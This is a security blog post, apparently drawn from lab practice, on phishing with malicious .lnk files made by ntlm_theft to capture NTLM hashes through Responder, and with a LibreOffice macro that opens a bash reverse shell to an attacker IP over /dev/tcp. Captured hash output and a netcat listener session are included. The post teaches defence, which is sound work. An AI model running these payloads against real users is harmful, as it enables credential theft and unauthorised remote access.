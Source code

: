 +++
title = "Bait, Hook, and Hack"
description = "Few tactics and techniques behind phishing attacks i have came accrossed in simulated labs xD"
date = 2024-09-07T07:40:10+01:00
weight = 4
+++

Phishing is like fishing with a twist—except instead of catching fish, you're trying to reel in sensitive information. Cybercriminals use cunning tactics to craft emails and websites that look all too real, hoping you'll bite. In this post, we're going to break down the phishing process from the initial bait to the final hook. You'll learn how these attacks are set up, how to spot them, and what you can do to protect yourself.

![](https://i.pinimg.com/originals/69/d8/57/69d857971d2740bad7ba184aa1ffc52e.gif#center)

In my simulated lab experiences, I’ve encountered several phishing scenarios that highlight the sophistication of these attacks. From deceptive emails that mimic trusted sources to cleverly disguised phishing websites, these examples offer valuable insights into how attackers operate. Understanding these tactics not only helps in recognizing potential threats but also enhances your ability to defend against them effectively.



## **Scenario 1 : Linking to Trouble**


In this scenario, we delve into the art of crafting a seemingly innocent `.lnk` file, but with a malicious twist. Our approach involves creating a `.lnk` file designed to exploit vulnerabilities in the Windows environment. We start by creating this file with the following tool called "[`ntlm_theft`](https://github.com/Greenwolf/ntlm_theft.git)" created by ***Green Wolf***.



![](https://i.imgur.com/NhM27Ou.png)



```bash
############ Command Breakdown ##############
# -g: generate all file formats
# -s: IP SMB hash capture server (Responder, smbserver.py)
# -f: Base filename without extension

python3 ntlm_theft.py -g all -s 10.11.69.221 -f secfortress
```



Once this nefarious file is crafted and uploaded to a shared SMB location, it awaits an unsuspecting victim. When the user interacts with the file, it silently triggers a process that captures and returns their NTLM hash. Before deploying our malicious `.lnk` file, it’s crucial to ensure that we have the necessary write access to an SMB share, or an alternative method for file transfer such as `FTP` or `IMAP`.


![](https://i.imgur.com/TsEKR40.png)


> As demonstrated, ensuring that a user (with malicious intent) has write access to an SMB share is crucial for delivering a valid payload. This access allows the attacker to upload the malicious `.lnk` file to the share. However, this scenario isn't always straightforward. In some trusted environments, users may be granted extensive privileges, including the ability to upload files to areas that are implicitly trusted. Consequently, files uploaded to these locations are often accepted without scrutiny, making them prime targets for exploitation. This highlights the importance of monitoring and restricting file uploads in trusted areas to mitigate potential risks.


![](https://i.imgur.com/lDlpwrP.png#center)



We can then intercept this valuable hash, opening the door to further exploitation. This technique highlights the power of seemingly benign files and the critical importance of vigilance against such subtle threats. By understanding and simulating these attacks, you gain insight into the sophisticated methods attackers use to compromise systems and the steps you can take to defend against them.



```bash
❯ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]

--SNIP--

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 192.168.165.30
[SMB] NTLMv2-SSP Username : REDACTED\Tracy.White
[SMB] NTLMv2-SSP Hash     : Tracy.White::REDACTED:9bbf8934331a4560:7E3E7EB81FF46C2022052D262FF86FED:0101000000000000804E1194E3EEDA012C0D0C83CBDD665900000000020008004F0031003400450001001E00570
049004E002D004300420041003200580050004B00420052005500300004003400570049004E002D004300420041003200580050004B0042005200550030002E004F003100340045002E004C004F00430041004C00030014004F00310034004
5002E004C004F00430041004C00050014004F003100340045002E004C004F00430041004C0007000800804E1194E3EEDA0106000400020000000800300030000000000000000100000000200000452F70F2B66A34630BD52340E899C3B9A07
2F2D5A53D205FCBB235EA806B7FB60A001000000000000000000000000000000000000900260063006900660073002F003100390032002E003100360038002E00340035002E003200330035000000000000000000
[*] Skipping previously captured hash for REDACTED\Tracy.White
```


## **Scenario 2 : Macro Mayhem**

We’ve seen a surge in `VBS` macro-based attacks recently, such as **CVE-2023-23399** and **CVE-2023-28311**, which have exploited vulnerabilities in common office software. In this section, we'll provide a quick guide on how to manually generate similar malicious macros. From embedding them into documents using tools like LibreOffice or Microsoft Excel, to executing them on a target system for a potential reverse shell.

Below is a short example of crafting a malicious macro in LibreOffice, designed to open a reverse shell to a remote attacker:

{{< drive id="1eht1kZT8IVZF5-2AWZnSfPAz2EACGEJq" type="preview" >}}


 **Breaking Down the Macro**

- **`REM ***** BASIC *****`**: This line denotes the beginning of a macro script written in LibreOffice BASIC, which is a scripting language similar to Visual Basic for Applications (VBA).

- **`Sub Main`**: Defines the start of the macro subroutine named "Main." This is where the script begins execution when triggered.

- **`shell(...)`**: This command executes a shell command on the target system. Here, it uses the `bash` shell to initiate a reverse shell connection.

- **`bash -c 'bash -i >& /dev/tcp/192.168.0.158/4444 0>&1'`**: This is the core payload. It runs a bash command that creates an interactive reverse shell, sending input and output to the attacker's IP (`192.168.0.158`) over TCP port `4444`. When executed, it effectively gives the attacker remote control of the target system.

- **`End Sub`**: Marks the end of the macro subroutine.

Getting a reverse shell is as simple as sending the malicious `.odt` file to your unsuspecting colleague who "clicks everything," and waiting for them to open it. Once they do, the reverse shell pops on the attacker's listener, as long as the target uses Bash or any Linux OS.


![](https://i.imgur.com/6oBaIwd.png#center)


By embedding this macro into a document and enticing the target to enable macros upon opening, the attacker can establish a reverse shell, gaining unauthorized access to the target system. This example highlights how easy it is to weaponize common office documents, and it underscores the importance of exercising caution with any files that prompt you to enable macros.


```bash
❯ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 192.168.0.158 33474
bash: cannot set terminal process group (1654): Inappropriate ioctl for device
bash: no job control in this shell
sec-fortress@Pwn-F0rk-3X3C:~$ whoami
whoami
sec-fortress
```

## **Closing the Net!**


![](https://i.pinimg.com/originals/fb/7d/81/fb7d811ce69c58730714a38ede4d4d3e.gif#center)

As we close the chapter on phishing, remember that staying one step ahead of cyber criminals is key. From sneaky `.lnk` files to crafty macros, these attacks exploit human trust and technical vulnerabilities. By understanding these methods, you can better protect yourself and your organization. Always be cautious with unexpected files and links, and never hesitate to verify their legitimacy. With awareness and vigilance, you can turn the tables on these digital predators and keep your information secure. Stay alert, stay informed, and keep phishing at bay! 

**Take note that this is based on my experiences in simulated labs, and there are many more phishing techniques out there. The landscape of phishing is constantly evolving, so staying updated and informed is crucial.**


## **Resources**


- [Phishing methodology](https://book.hacktricks.xyz/generic-methodologies-and-resources/phishing-methodology)
